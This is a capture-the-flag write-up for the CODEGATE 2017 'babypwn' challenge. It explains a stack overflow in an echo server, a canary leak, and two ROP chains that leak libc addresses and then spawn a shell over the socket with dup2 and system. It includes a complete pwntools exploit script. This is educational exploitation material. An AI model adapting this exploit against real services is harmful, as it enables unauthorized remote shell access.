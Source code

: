 Title: [CODEGATE CTF 2017] babypwn 50
Date: 2017-02-11 23:33
Tags: CODEGATE, CTF, pwn, ROP, Stack Overflow
Author: Naetw
Summary: A write-up for CODEGATE CTF 2017 babypwn 50

## Analyzing

> 32 bits ELF, Partial RELRO, with canary & NX, no PIE.

There is an obvious stack overflow vulnerablility.

Main operation is in `0x08048A71` function, and previous operation was setup of socket or sth. If you want to test this program locally:

* First run command `ncat -vc ./babypwn -kl 127.0.0.1 4000`
* Second, after looking into the src, we need to `nc localhost 4000` first, then our socket program will be activated. After that, we can test our program by connecting to port 8181 (`nc localhost 8181`).


The behavior of this program is simple:

```
===============================
1. Echo
2. Reverse Echo
3. Exit
===============================
Select menu > 1
Input Your Message : AAAA
AAAA

===============================
1. Echo
2. Reverse Echo
3. Exit
===============================
Select menu >
```

At first glance, I thought there was a format string vulnerablility, but it wasn't. It's just an echo server. However, we can overflow the stack when it takes the input. And we will use this vulnerablility to leak canary to do later exploit.

## Exploit

**Overflow**

Use ida pro.

```c
char buf[40]; // [sp+24h] [bp-34h]@1
...
socket_recv(buf, 100) // socket_recv == 0x08048907
```

Here is an obvious overflow. Therefore, we can calculate offset for canary then make buffer on stack look like this:

```
0xff951f54:     0x41414141      0x41414141      0x41414141      0x41414141
0xff951f64:     0x41414141      0x41414141      0x41414141      0x41414141
0xff951f74:     0x41414141      0x41414141      0x4409b50a      0x00000000
```

`0x4409b50a` is our canary. Since the first byte of canary would be '\x00', I use a newline character to overwrite it so that we can leak the last 3 bytes. After we get the `0x4409b50a`, we just need to change the newline character back to null byte then we get the canary of this binary. So the real canary is `0x4409b500`.

With canary, we can bypass the stack guard. I will use it to do the first ROP. In the first ROP, I will leak the file descriptor for the socket and the libc function address in order to get the version of libc by [libc database](http://libcdb.com).

First ROP payload:

```python
socket_send = 0x080488B1
pop1 = 0x08048589
sigemptyset_got = 0x0804B048
echo_select = 0x08048A71
fd_address = 0x0804B1B8
rop1 = [socket_send, pop1, sigemptyset_got, 
        socket_send, echo_select, fd_address]
payload = 'A'*40 +      # padding to canary
        p32(canary) +
        'A'*12 +        # padding to return address
        ''.join(map(p32, rop1))
```

After placing the ROP gadgets, we need to choose choice 3 to return, then it will return to our ROP gadgets.

I use the [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to find the gadget `pop1` which pop once then ret. Since we need to do the second ROP (duplicate file descriptor and open the shell) after leaking information, I make the end of the first ROP return to the `0x08048A71` (function of main operation).


After finding out the version of libc, we can get the libc base. In the second ROP, I use `dup2` to copy the fd of socket to stdin and stdout then open the shell. (Use dup2 so that we can get the interactive shell)

```python
pop2 = 0x08048B84
sh = base + next(libc.search('sh\x00'))
rop2 = [dup2, pop2, fd, 1,
        dup2, pop2, fd, 0,
        system, 0xdeadbeef, sh]
payload = 'A'*40 +      # padding to canary
        p32(canary) +
        'A'*12 +        # padding to return address
        ''.join(map(p32, rop2))
```

Again, choose the choice 3 to return then open the shell!

```python
#!/usr/bin/env python
# -*- coding: utf8 -*-
from pwn import * # pip install pwntools
import sys

ip = '127.0.0.1'
port = 8181
reip = '110.10.212.130'
report = 8888

r = remote(ip, port)
#r = remote(reip, report)

# Default address & libc setting
echo_select = 0x08048a71
socket_send = 0x080488b1
sigemptyset_got = 0x0804b048
fd = 0x0804b1b8
pop1 = 0x08048589
pop2 = 0x08048b84
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#libc = ELF('libc.so')

def echo(payload):
    r.recvuntil('>')
    r.sendline('1')
    r.recvuntil(':')
    r.send(payload)

# Leak canary
echo('A' * 40 + '\n')
r.recvline()
canary = r.recv(3)
canary = u32('\x00' + canary)
log.info(hex(canary))


# Leak libc function address and File Descripter
rop1 = [socket_send, pop1, sigemptyset_got, socket_send, echo_select, fd]
payload = 'A'*40 + p32(canary) +'A'*12 + ''.join(map(p32, rop1))
echo(payload + '\n')
r.recvuntil('>') 
r.sendline('3') # Use exit to ret to rop
r.recv()
sig = u32(r.recv(4))
listen = u32(r.recv(4))
atoi = u32(r.recv(4))
r.recv()
fd = ord(r.recv(1))
log.info('sigemptyset : ' + hex(sig) + '\n' + 
        'listen : ' + hex(listen) + '\n' +
        'atoi : ' + hex(atoi) + '\n' +
        'fd : ' + hex(fd))

''' Here I use http://libcdb.com '''
base = atoi - libc.symbols['atoi']
dup2 = base + libc.symbols['dup2']
system = 0x08048620
read = base + libc.symbols['read']
log.info('base : ' + hex(base))
sh = base + next(libc.search('sh\x00'))


# Duplicate fd and stdout & stdin(in order to use shell)
rop2 = [dup2, pop2, fd, 1,
        dup2, pop2, fd, 0,
        system, 0xdeadbeef, sh]
payload = 'A'*40 + p32(canary) + 'A'*12 + ''.join(map(p32, rop2))
echo(payload)

# Use exit to ret to rop2
sleep(0.1)
r.sendline('3')

r.interactive()
```

`FLAG{GoodJob~!Y0u@re_Very__G@@d!!!!!!^.^}`
